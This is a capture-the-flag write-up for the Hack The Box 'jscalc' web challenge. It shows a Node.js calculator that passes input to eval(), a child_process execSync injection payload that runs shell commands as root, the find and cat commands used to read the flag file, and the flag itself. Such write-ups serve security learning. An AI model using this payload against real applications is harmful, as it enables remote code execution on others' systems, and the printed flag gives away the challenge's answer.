 # Challenge

jscalc is a web challenge on hack the box. The challenge description mentions that you can do "inkjet trajectory calculations" using a JavaScript calculator.
![Website](website.png)

# calculatorHelper.js

Looking at the `challenge/helpers/calculatorHelper.js` file, we see that the calcuator uses the JavaScript `eval()` function which is vulnerable to code injection\.

```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

# Getting a shell

We can inject JavaScript into calculator's text box to get a Linux shell. `require('child_process')` spawns a subprocess, the `execSync('linux cmd')` command runs a linux command, and the `toString()` allows us to see the output of our command.

```javascript
require('child_process').execSync('linux cmd').toString()
```

For example, we run the linux `whoami` command find that we are `root`.
![Our Shell](shell.png)

# Locating the Flag

We search all of our files for a file named `flag.txt` using the linux command `find / -name flag.txt`.
![Locating the Flag](location.png)

# Viewing the Flag

We view the content of the `flag.txt` file using the linux command `cat /flag.txt`. The flag is `HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}`.
![Flag](flag.png)
